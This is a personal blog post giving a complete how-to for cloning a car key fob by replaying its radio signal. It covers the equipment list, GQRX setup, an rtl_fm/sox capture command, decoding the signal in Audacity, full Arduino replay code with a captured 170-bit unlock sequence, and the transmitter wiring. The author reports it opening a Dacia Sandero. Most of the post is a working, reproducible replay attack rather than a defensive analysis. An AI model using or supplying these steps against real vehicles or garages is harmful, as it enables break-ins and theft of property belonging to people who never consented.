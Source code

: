 ```yaml
---
layout: post
title: How to clone a car key
---
```


Recently, a friend told me that he had bought a USB antenna to see the TV on the computer (R820T2) and that this antenna could capture traffic in a big frequency range, not only TV range. This antenna could capture frequencies of garage and car keys although it was designed to TV frequencies.

With this info I decided to buy one of this TV antennas that are very cheap, only 10$ ([R820T2 TV antenna](https://es.aliexpress.com/item/FW1S-New-USB-2-0-Digital-DVB-T-SDR-DAB-FM-HDTV-TV-Tuner-Receiver-Stick/32600825233.html?spm=a2g0s.11045068.rcmd404.2.266956a4uWrjNg&pvid=54eedbd9-24c7-42a3-9eed-ab60d3f9f07c&gps-id=detail404&scm=1007.16891.96945.0&scm-url=1007.16891.96945.0&scm_id=1007.16891.96945.0))

<p align="center">
	  <img src="/images/carkey/antenna.jpg">
</p>

To send the signal captured from the car key with the antenna I used one [Arduino One R3](https://www.dx.com/p/uno-r3-development-board-microcontroller-mega328p-atmega16u2-compat-for-arduino-blue-black-2027231#.XAvpPnVKixu) and a [433MHz Radio Frequency transmitter](https://www.dx.com/p/rf-transmitter-receiver-module-433mhz-wireless-link-kit-w-spring-antennas-for-arduino-2057011#.XAvpVnVKixu).
<p align="center">
	  <img src="/images/carkey/arduino.jpg">
	  <img src="/images/carkey/module.jpg">
</p>

I decided to install GQRX that is an open source radio software that allows us see the frequencies spectre and detect our car key frequency using our antenna.
We can install GQRX easily with:

```bash
$ sudo apt-get install gqrx
```
<p align="center">
	  <img src="/images/carkey/gqrx.jpg">
</p>

Now, with the antenna connected to the computer and GQRX running with the 433MHz frequency selected (common frequency for the car keys) and if we press any button of the car key, GQRX will capture it. In my case, the exact frecuency of my car key is 433.92MHz
<p align="center">
	  <img src="/images/carkey/wave.png">
</p>

Once checked that the car key frequency is the correct one, we can capture the "open" and "close" message to reverse them and resend to the car with our Arduino.
I will do the process for the "open" message.
I use another open source software called rtl_433 to capture the message that can be downloaded from the official [GitHub repository](https://github.com/merbanan/rtl_433)

With rtl_433 installed we can follow the repository instructions to capture the signal with this command:

```bash
$ rtl_fm -M am -f 433920000 -s 2000000 - | sox -t raw -r 2000000 -e signed-integer -b 16 -c 1 -V1 - sound.wav 
```
The -f parameter, that has the value 433920000, corresponds with the exact frequency of my car key and sound.wav is the name of the generated file with the signal captured.

I executed the command for 10 seconds and I press the key button three times to have different captures of the "open" message.
To stop the capturing process press Ctrl + C.
With the .wav file in my desktop I opened it with Audacity, a sound editing software that will allows us reverse wave captures.
If we open the .wav file with Audacity we will see the next wave:
<p align="center">
	  <img src="/images/carkey/auda1.png">
</p>

In my case it was easy to appreciate that in the signal dump, there are three zones that corresponds with the periods that I have been with the key button pressed.
If we center our attention in one of these three zones we will see the signal like this:

<p align="center">
	  <img src="/images/carkey/auda2.png">
</p>

In the previous image we can see the same pattern repeated some times. Each of this repetitions correspond to the "open" message that are sended many times when we hold the key.
With this information we will clip one of this patterns to apply reverse engineering to it.

<p align="center">
	  <img src="/images/carkey/auda3.png">
</p>

Now we have to apply reverse engineering to this signal fragment.
If we zoom in the signal, it can be appreciate that are some parts with a big amplitude and other with a smaller one. The big amplitude zones means 1 in binary and the small amplitude zones means 0 in binary.

The last thing we have to calculate is the period of the binary simbols. This means that, if we want to send a digital 0 is translated to to an analogic 0 as a signal with small amplitude during a time T. T is what we have to calculate and we can do this easily with Audacity:

<p align="center">
	  <img src="/images/carkey/auda4.png">
</p>

In my case the period T is 0.4 ms as you can see in the previous image.

With this information we can compile the code below replacing code array value with the 1/0 sequence that corresponds to our reversed signal.

In the array, 1 means a period of big amplitudes of length T and 0 means a period of small amplitudes of, also, length T.

```cpp
//Developed by j0lama
 
#include <SoftwareSerial.h>
 
#define time 400
 
#define pin 9
 
void setup() {
  Serial.begin(9600);
  while (!Serial);
  pinMode(pin, OUTPUT);
  Serial.println("The code will be sent in 2 seconds...");
}
 
void loop() {
    int code[170] = {1,0,0,1,1,0,1,1,0,1,1,0,1,0,0,1,1,0,1,1,0,1,1,0,1,1,0,1,1,0,1,1,0,1,0,0,1,1,0,1,0,0,1,1,0,1,0,0,1,0,0,0,1,1,0,1,0,0,1,0,0,1,0,0,1,1,0,1,1,0,1,0,1,0,0,1,0,0,1,0,0,1,0,0,1,1,0,1,1,0,1,0,0,1,1,0,1,0,0,1,0,0,1,0,0,1,1,0,1,1,0,1,0,0,1,1,0,1,0,0,1,1,0,1,1,0,1,0,0,1,1,0,1,1,0,1,1,0,1,1,0,1,1,0,1,1,0,1,1,0,1,1,0,1,1,0,1,0,0,1,1,0,1,1,0,1,1,0,1,1};
    int i, j;
    for(i = 0; i < 3; i++)
    {
        for(j = 0; j < 170; j++)
        {
            if(code[j] == 1)
            {
                digitalWrite(pin, HIGH);
                delayMicroseconds(time);
                digitalWrite(pin, LOW);
            }
            else
            {
                delayMicroseconds(time);
            }
        }
        Serial.println("Message sent!");
        delay(15);
    }
    Serial.println("Final");
    delay(1000);
}
```

With the code compiled and loaded in our Arduino, we have to setup the hardware following the connections below.

#### Arduino --> RF Transmitter):

- Ground to Ground
- 3.3 V pin to VCC pin
- 9 pin to ATAD pin

I tested this method on Dacia Sandero with this result:

<p align="center">
	<video width="800" height="500" controls>
	  <source type="video/mp4" src="/images/carkey/car.mp4"></source>
	</video>
</p>

The car is opened!

With this small write-up I wanna show you how easily is to unlock a car (or a garage) without the key for only 15-20 $.

### Report errors
It's probably that this write-up contains a lot of mistakes so if you find any mistake, please let me know on Twitter (@j0lama).

Thanks for reading.

------